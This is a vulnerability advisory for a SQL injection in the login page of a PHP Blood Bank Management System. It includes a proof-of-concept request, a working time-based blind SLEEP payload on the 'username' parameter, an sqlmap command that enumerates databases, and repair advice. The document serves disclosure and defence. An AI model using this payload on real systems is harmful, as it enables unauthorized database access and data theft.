

# code-projects Blood Bank Management System In PHP With Source Code v1.0 /hms/admin/login.php SQL injection
# usernameOF AFFECTED PRODUCT(S)
+ Blood Bank Management System In PHP With Source Code
## Vendor Homepage
+ https://code-projects.org/blood-bank-management-system-in-php-with-source-code/
# AFFECTED AND/OR FIXED VERSION(S)
## submitter
+ kinsomnia
## Vulnerable File
+ login.php
## VERSION(S)
+ V1.0
## Software Link
+ https://download.code-projects.org/details/5adfb6bc-7ea9-4781-b91b-d4fca515fab4
# PROBLEM TYPE
## Vulnerability Type
+ SQL injection
## Root Cause
+ A SQL injection vulnerability was found in the 'login.php' file of the 'Blood Bank Management System In PHP With Source Code' project. The reason for this issue is that attackers inject malicious code from the parameter "username" and use it directly in SQL queries without appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.
+ 

## Impact
+ Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.
# DESCRIPTION
+ Due to insufficient user input verification for the "username" parameter, a serious SQL injection vulnerability has been discovered in the "Blood Bank Management System In PHP With Source Code", allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to the database, modify or delete data, and access sensitive information without logging in. Immediate remedial measures are needed to ensure system security and protect data integrity.
# No login verification required
# Vulnerability details and POC
```
POST /login.php HTTP/1.1
Host: 192.168.1.200:1214
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: http://192.168.1.200:1214
Connection: close
Referer: http://192.168.1.200:1214/
Cookie: PHPSESSID=v80phjj1umn61msuqisnar8277
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username=admin&password=123456

```

## Vulnerability type: 
+ time-based blind

## Vulnerability location:
+ 'username' parameter 
## Payload: 
```
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 3565 FROM (SELECT(SLEEP(5)))PZxQ) AND 'pRBg'='pRBg&password=123456

```
+ 

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:
```bash
sqlmap -r 123 --batch --dbs

```
+ 

# Suggested repair
1. **Use prepared statements and parameter binding:**
Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.

2. **Input validation and filtering:**
Strictly validate and filter user input data to ensure it conforms to the expected format. 

3. **Minimize database user permissions:**
Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.

4. **Regular security audits:**
Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
